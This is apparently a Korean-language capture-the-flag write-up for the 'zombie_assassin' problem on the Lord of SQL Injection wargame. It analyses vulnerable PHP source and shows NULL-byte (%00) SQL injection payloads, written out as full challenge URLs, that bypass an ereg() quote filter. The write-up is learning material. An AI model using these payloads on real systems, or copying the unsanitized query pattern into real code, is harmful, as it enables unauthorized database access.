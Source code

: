 # Lord of SQL Injection No.16 - zombie_assassin

## 문제 출제 의도

`'`을 필터링하는 ereg() 함수를 우회하여 SQL Injection을 할 수 있는지 확인한다.

## 소스 코드 분석

zombie_assassin 문제의 php 소스 코드는 다음과 같다.
```php
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/\\\|prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~"); 
  if(preg_match('/\\\|prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(@ereg("'",$_GET[id])) exit("HeHe"); 
  if(@ereg("'",$_GET[pw])) exit("HeHe"); 
  $query = "select id from prob_zombie_assassin where id='{$_GET[id]}' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) solve("zombie_assassin"); 
  highlight_file(__FILE__); 
?>
```
-----

```php
  if(preg_match('/\\\|prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~"); 
  if(preg_match('/\\\|prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(@ereg("'",$_GET[id])) exit("HeHe"); 
  if(@ereg("'",$_GET[pw])) exit("HeHe"); 
```
* GET방식으로 id와 pw를 받고, id나 pw에 `\`, `prob`, `_`, `.`, `()` 가 들어 있으면 `No Hack ~_~`이 뜨고 문제 풀이에 실패한다.

* 또한, id나 pw에 `'` 이 들어 있으면 `HeHe`가 뜨고 문제 풀이에 실패한다.

```php
  $query = "select id from prob_zombie_assassin where id='{$_GET[id]}' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) solve("zombie_assassin"); 
```
* 받은 id가 직접 쿼리에 들어간다. 이것으로 SQL Injection 공격이 가능하다는 것을 알 수 있다.

* 문제 풀이가 성공하는 조건은 '데이터베이스에서 받은 id에 "0"을 제외한 어떤 문자열이든 들어있음'이다.

## ereg

```php
int ereg ( string $pattern , string $string [, array &$regs ] )
```
* 이미 [8번 Troll 문제](https://gitlab.com/dsm-highschool/sql-injection-writeup/blob/master/12_%EC%9D%B4%EC%9E%AC%EC%84%9D/writeUp/los_no8_troll.md)에서 대소문자 구분 관련 취약점을 만들어낸 ereg함수이다.

* 하지만 ereg함수가 PHP 5.3+ 부터 더 이상 쓰이지 않게 된 이유는 대소문자 구분 때문이 아니다.

* ereg함수는 POSIX Regex 함수의 하나로 PHP 5.3+ 버전에서 NULL문자를 만나면 더 이상 뒤의 문자열을 체크하지 않는 취약점을 가지고 있다.

* php의 ereg 함수에 대해 잘 모르겠다면 다음 링크를 참고하자.

* [PHP: ereg - Manual](http://php.net/manual/kr/function.ereg.php)

* POSIX Regex 함수의 취약점에 대해 잘 모르겠다면 다음 링크를 참고하자.

* [POSIX Regex와 PCRE Regex](http://blog.do9.kr/entry/POSIX-Regex%EC%99%80-PCRE-Regex)

-----

## Solution
    
1. NULL 문자 이용

    PHP의 ereg() 함수 부분을 보면

    ```php
    if(@ereg("'",$_GET[id])) exit("HeHe"); 
    if(@ereg("'",$_GET[pw])) exit("HeHe"); 
    ```

    ereg() 함수는 NULL 문자를 만나면 더 이상 뒤의 문자열을 체크하지 않는다.

    NULL 문자는 URL Encoding을 하면 `%00`이 된다.

    따라서 입력값으로 `%00' union select 1-- -`, `%00' or 1=1-- -` 과 같이 NULL 문자가 `'` 앞에 오도록 값을 넣으면 ereg() 함수에서 필터링이 이루어지지 않으며, SQL문을 적당히 조작하여 값이 반환되도록 하면 문제가 풀리게 된다.

    ```
    http://los.eagle-jump.org/zombie_assassin_14dfa83153eb348c4aea012d453e9c8a.php?id=%00' union select 1-- -
    http://los.eagle-jump.org/zombie_assassin_14dfa83153eb348c4aea012d453e9c8a.php?id=%00' or 1=1-- -
    ```

    ```
    select id from prob_zombie_assassin where id='' union select 1-- -' and pw=''
    select id from prob_zombie_assassin where id='' or 1=1-- -' and pw=''
    ```
